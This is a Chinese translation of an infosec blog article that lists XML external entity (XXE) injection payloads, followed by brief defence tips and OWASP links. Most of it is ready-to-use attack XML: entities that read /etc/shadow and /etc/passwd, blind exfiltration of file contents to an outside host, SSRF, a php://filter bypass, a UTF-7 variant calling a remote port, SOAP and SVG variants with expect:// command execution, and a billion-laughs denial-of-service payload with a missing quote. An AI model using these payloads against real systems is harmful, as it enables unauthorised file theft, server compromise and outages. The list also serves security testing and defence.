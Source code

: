 # XML 外部实体(XXE)注入有效负载列表

> 原文：<https://infosecwriteups.com/xml-external-entity-xxe-injection-payload-list-937d33e5e116?source=collection_archive---------0----------------------->

在本节中，我们将解释什么是 XML 外部实体注入，描述一些常见的示例，解释如何发现和利用各种 XXE 注入，并总结如何防止 XXE 注入攻击。

## 什么是 XML 外部实体注入？

XML 外部实体注入(也称为 XXE)是一个 web 安全漏洞，使得攻击者能够干扰应用程序对 XML 数据的处理。它通常允许攻击者查看应用程序服务器文件系统上的文件，并与应用程序本身可以访问的任何后端或外部系统进行交互。

在某些情况下，攻击者可以升级 XXE 攻击，通过利用 XXE 漏洞执行服务器端请求伪造(SSRF)攻击来危害底层服务器或其他后端基础设施。

![](img/ed22591eea5e9a6cf48ad81cc9903f2f.png)

XXE 攻击有多种类型:

XML 外部实体(XXE)注入[有效负载](https://www.peerlyst.com/tags/payloads)

XXE:基本 XML 示例

```
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```

XXE:实体示例

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

XXE:文件披露

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

XXE:拒绝服务示例

```
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag>
```

XXE:本地文件包含示例

```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```

XXE:盲本地文件包含示例(当第一个案例没有返回任何内容时。)

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
```

XXE:访问控制旁路(加载受限资源——PHP 示例)

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo>
```

XXE:SSRF(服务器端请求伪造)示例

```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```

XXE:(远程攻击—通过外部 Xml 包含)示例

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY test SYSTEM "https://example.com/entity1.xml">]>
<lolz><lol>3..2..1...&test<lol></lolz>
```

XXE: UTF-7 示例

```
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

XXE: Base64 编码

```
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

XXE:SOAP 里面的 XXE 示例

```
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

XXE:SVG 内部的 XXE

```
<svg  xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

保护您的 web 应用免受 XXE 攻击的几点建议:

*   **解析解析器**:本质上，XXE 是一种注入攻击的形式，攻击脆弱的 XML 解析器。因此，一个基本的防御措施是检查应用程序的 XML 解析库中可能被误用的 XML 特性，并禁用它们。特别是，禁用 dtd(外部实体)，如下所述。另外，检查您的 XML 处理器是否打了补丁。
*   **验证输入:**验证文件上传经过 XSD 验证，并且只允许白名单中的 URL。
*   通过代码进行测试:不要低估手工代码评审。通过 API 调用识别和测试 XXE 攻击。在 XML 解析器解析用户输入之前对其进行验证。
*   **记住基础知识**:确保网络监控工具和应用防火墙得到更新。

## 参考资料:

👉 [XML 外部实体(XXE)处理](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)

👉 [XML 外部实体预防备忘单](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)

👉[XML 注入测试(OTG-INPVAL-008)](https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008))

—

来源:https://github.com/payloadbox/xxe-injection-payload-list

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！